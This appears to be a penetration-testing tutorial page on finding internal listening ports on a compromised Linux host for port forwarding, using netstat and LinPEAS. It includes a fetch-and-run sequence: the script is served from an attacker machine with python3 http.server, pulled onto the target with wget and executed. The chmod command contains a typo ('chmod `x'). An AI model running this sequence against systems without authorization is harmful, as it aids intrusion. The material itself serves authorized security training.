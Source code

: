 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Before we start, we need to understand exactly what we are looking for:

1. **Local Address 0.0.0.0**: The service is listening on all interfaces and will be visible locally, internally, and externally.  
    If we find a service listening on 0.0.0.0 that was not visible externally during our Nmap scan, it means the firewall is blocking inbound connections to this port. This is a port forwarding opportunity!  

2. **Local Address 127.0.0.1**: The service is only listening for connections locally from this host (localhost), not from anywhere else. This is a port forwarding opportunity!  

3. **Local Address 172.16.1.150**: The service is only listening for connections from the local network (internally).Only hosts on the local network can connect to this service. This is a port forwarding opportunity!  

### **Enumerating Open Ports – Manual Method**

1. To enumerate open ports on a Linux host, we can use the following command:  

   ```bash
   netstat -tulpn
   ```

   ![](../../../img/Linux-Environment/39.png)  

??? info "Tips & Tricks"  
    To investigate an internal port, use:  

       ```bash
       ps -ef | grep 3360
       ```

       This will display the process details.  

### **Enumerating Open Ports – Automated Method (LinPEAS)**

1. If you don’t already have LinPEAS, download it with the following command:  

   ```bash
   wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
   ```

   ![](../../../img/Linux-Environment/40.png)  

2. Host the LinPEAS script using Python:  

   ```bash
   python3 -m http.server 8000
   ```

   ![](../../../img/Linux-Environment/41.png)  

3. Transfer the script to the target machine using `wget`:  

   ```bash
   wget http://[IP-ADDRESS]:8000/linpeas.sh
   ```

   ![](../../../img/Linux-Environment/42.png)  

4. On the target machine, download and execute LinPEAS:  

   ```bash
   chmod `x linpeas.sh && ./linpeas.sh
   ```

   ![](../../../img/Linux-Environment/43.png)  

??? info "NOTE"

    Scrolling down to the Network Information > Active Ports, we can see that it’s the same as the output from netstat, which is actually what LinPEAS uses to pull this info for us. 